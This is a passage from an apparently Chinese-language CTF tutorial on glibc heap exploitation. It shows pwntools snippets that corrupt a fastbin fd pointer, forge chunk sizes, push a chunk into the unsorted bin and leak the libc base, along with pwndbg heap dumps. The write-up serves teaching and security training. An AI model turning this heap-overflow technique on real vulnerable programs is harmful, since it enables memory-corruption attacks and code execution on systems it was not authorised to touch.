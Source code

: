 ```python
    # edit idx 0 chunk to particial overwrite idx1's fd to point to idx4
    payload = 0x10 * 'a' + p64(0) + p64(0x21) + p8(0x80)
    fill(0, len(payload), payload)
```

修改成功後如下

```shell
pwndbg> x/20gx 0x55a03ca22000
0x55a03ca22000:	0x0000000000000000	0x0000000000000021
0x55a03ca22010:	0x6161616161616161	0x6161616161616161
0x55a03ca22020:	0x0000000000000000	0x0000000000000021
0x55a03ca22030:	0x000055a03ca22080	0x0000000000000000
0x55a03ca22040:	0x0000000000000000	0x0000000000000021
0x55a03ca22050:	0x0000000000000000	0x0000000000000000
0x55a03ca22060:	0x0000000000000000	0x0000000000000021
0x55a03ca22070:	0x0000000000000000	0x0000000000000000
0x55a03ca22080:	0x0000000000000000	0x0000000000000091
0x55a03ca22090:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x55a03ca22020 —▸ 0x55a03ca22080 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

那麼，當我們再次申請兩個時，第二個申請到的就是idx 4處的chunk。爲了能夠申請成功，我們需要確保 idx4 的size 與當前 fastbin 的大小一致，所以，我們得修改它的大小。申請成功後，idx2會指向idx4。

```python
    # if we want to allocate at idx4, we must set it's size as 0x21
    payload = 0x10 * 'a' + p64(0) + p64(0x21)
    fill(3, len(payload), payload)
    allocate(0x10)  # idx 1
    allocate(0x10)  # idx 2, which point to idx4's location
```

之後，如果我們想要將 idx 4 放到 unsorted bin 中的話，爲了防止其與top chunk 合併，我們需要再次申請一個chunk。此後再釋放 idx4 就會進入 unsorted bin中去了。此時由於 idx2 也指向這個地址，所以我們直接展示他的內容就可以得到unsorted bin的地址了。

```python
    # if want to free idx4 to unsorted bin, we must fix its size
    payload = 0x10 * 'a' + p64(0) + p64(0x91)
    fill(3, len(payload), payload)
    # allocate a chunk in order when free idx4, idx 4 not consolidate with top chunk
    allocate(0x80)  # idx 5
    free(4)
    # as idx 2 point to idx4, just show this
    dump(2)
    p.recvuntil('Content: \n')
    unsortedbin_addr = u64(p.recv(8))
    main_arena = unsortedbin_addr - offset_unsortedbin_main_arena
    log.success('main arena addr: ' + hex(main_arena))
    main_arena_offset = 0x3c4b20
    libc_base = main_arena - main_arena_offset
    log.success('libc base addr: ' + hex(libc_base))
```
